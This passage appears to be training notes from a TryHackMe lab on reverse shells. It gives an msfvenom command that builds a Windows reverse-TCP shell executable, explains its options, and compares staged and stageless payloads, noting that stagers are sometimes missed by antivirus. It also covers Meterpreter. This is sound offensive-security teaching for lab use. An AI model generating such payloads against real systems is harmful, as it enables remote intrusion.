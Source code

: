 `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

Here we are using a payload and four options:

```text
    -f <format>
        Specifies the output format. In this case that is an executable (exe)
    -o <file>
        The output location and filename for the generated payload.
    LHOST=<IP>
        Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
    LPORT=<port>
        The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
```

#### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced:
staged reverse shell payloads and stageless reverse shell payloads.

- **Staged** payloads are sent in two parts. The first part is called the stager.
This is a piece of code which is executed directly on the server itself.
It connects back to a waiting listener,
but doesn't actually contain any reverse shell code by itself.
Instead it connects to the listener and downloads the actual payload.
Thus the payload is split into two parts -- a small initial stager,
then the bulkier reverse shell code which is downloaded when the stager is activated.
Staged payloads require a special listener -- usually the Metasploit multi/handler,
which will be covered in the next task.
- **Stageless** payloads are more common -- these are
what we've been using up until now.
They are entirely self-contained in that there is one piece of code which,
when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier,
and are easier for an antivirus or intrusion detection program to discovery and remove.
Staged payloads are harder to use, but the initial stager is a lot shorter,
and is sometimes missed by antivirus software.

#### Meterpreter

On the subject of Metasploit,
another important thing to discuss is a Meterpreter shell.
Meterpreter shells are Metasploit's own brand of fully-featured shell.
They are completely stable,
making them a very good thing when working with Windows targets.
They also have a lot of inbuilt functionality of their own,
such as file uploads and downloads.
If we want to use any of Metasploit's post-exploitation tools then we need to
use a meterpreter shell, however, that is a topic for [another time](https://tryhackme.com/room/rpmetasploit).
The downside to meterpreter shells is that they must be caught in Metasploit.
They are also banned from certain certification examinations,
so it's a good idea to learn alternative methodologies.
